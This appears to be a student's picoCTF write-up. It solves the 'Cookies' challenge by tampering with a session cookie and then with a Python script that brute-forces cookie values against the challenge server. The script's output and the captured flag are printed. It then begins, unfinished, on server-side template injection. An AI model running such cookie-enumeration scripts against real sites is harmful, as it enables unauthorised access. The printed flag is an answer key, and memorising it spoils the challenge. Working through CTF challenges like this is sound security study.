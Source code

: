 # 1.Cookies:
> Who doesn't love cookies? Try to figure out the best one. (http://mercury.picoctf.net:64944/)

## Solution:
- I first opened the website in my web browser and opened the inspection page to find the cookie .
- I navigated to the application tab and to the cookie area when I observed:
- <img width="500" height="500" alt="cookie" src="https://github.com/user-attachments/assets/5c320f2c-156f-4298-96ec-611193230749" />
- so here we see that `cookie: name=-1`
- now I tried entering different names of cookies in a search box `snickerdoodle` changed `name=0` . Next , `chocolate chip` changed `name=1` etc. , so the values kept changing with the input of different cookie names and it went back to `name=-1` otherwise.
- From this , I noticed with every accepted response , the webpage (http://mercury.picoctf.net:64944/check), checks the cookie and displays a message.
- Method 1: I tried changing the value of the cookie and reload the webpage , after trying numbers 1-18 , I found that at 18 it displays the flag.
<img width="500" height="500" alt="flag" src="https://github.com/user-attachments/assets/ff9d0140-f03e-4eaa-88b8-6703e7e7fd35" />

- Method 2: I tried to learn how to write a python code to bruteforce through a set of values .
- I used the following code with the help of A.I to brute force it.
```
#!/usr/bin/env python3
import requests, re

URL = "http://mercury.picoctf.net:64944/"         
pat = re.compile(r"picoCTF\{.*?\}", re.I)

for i in range(25):                                
    r = requests.get(URL, cookies={"name": str(i)}, timeout=6)
    if pat.search(r.text):
        print("FOUND for name=", i, "->", pat.search(r.text).group(0))
        break
    print(i, "status", r.status_code, "len", len(r.text))
```
- using the nano editor in the terminal , I added this code and ran it using python3 :
```
:~$ python3 quick-check.py
0 status 200 len 1779
1 status 200 len 1780
2 status 200 len 1780
3 status 200 len 1776
4 status 200 len 1776
5 status 200 len 1779
6 status 200 len 1777
7 status 200 len 1771
8 status 200 len 1774
9 status 200 len 1770
10 status 200 len 1774
11 status 200 len 1772
12 status 200 len 1772
13 status 200 len 1774
14 status 200 len 1770
15 status 200 len 1776
16 status 200 len 1774
17 status 200 len 1771
FOUND for name= 18 -> picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}
```
## Flag:
`picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}`

# 2.SSTI1
> I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!

## Solution:
- SSTI stands for server side template injection so I first found out what that is exactly and how to exploit this vulnerability to obtain the flag.
- Server-Side Template Injection (SSTI) is a vulnerability that arises when an attacker can inject malicious code into a server-side template, leading to unintended execution.
- 
